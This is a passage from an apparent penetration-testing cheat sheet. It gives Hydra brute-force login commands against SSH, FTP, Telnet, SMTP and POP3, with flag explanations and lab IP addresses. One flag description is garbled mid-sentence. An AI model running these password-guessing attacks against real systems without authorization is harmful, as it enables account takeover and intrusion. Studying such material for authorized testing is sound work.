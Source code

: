 
- `-l root`: Single username.

- `-P rockyou.txt`: Common password list.

- `ssh://192.168.1.100`: Target system.

- `-t 4`: Four parallel threads.

- `-f`: Stop after first valid password found.

- `-V`: Show all login attempts.

---
#### FTP

```c
hydra -L 1000_usernames.txt -P short_pass_list.txt ftp://192.168.126.143
```

---
#### Telnet

```c
hydra -L 1000_usernames.txt -P short_pass_list.txt telnet://192.168.126.143
```

---
#### SMTP

```c
hydra -P passwordlist.txt -l user -s port -S -v -V smtp.server.com smtp
```


- `-P passwordlist.txt`: Specifies the path to the file containing a list of passwords to test.
  
- `-l user`: Specifies the single username to attempt authentication with. You can use `-L` for a list of usernames.
  
- `-s port`: (Optional) Specifies the por unencrypted or 587 for encrypted STARTTLS).
  
- `-S`: (Optional) Enables SSL support, which might be necessary if the SMTP server requires SSL (port 465 usually).
  
- `-v` and `-V`: Increase the verbosity of the report that Hydra outputs. `-v` shows only the successful attempts, while `-V` shows all attempts.

Suppose you are testing `smtp.example.com` that requires SSL and runs on port 465, and you have a list of usernames and passwords. The Hydra command might look like this:

```c
hydra -L userlist.txt -P passlist.txt -s 465 -S -v smtp.example.com smtp
```

---
#### POP3

```c
hydra -l user -P passlist.txt -s port -S -v -V pop3.server.com pop3
```
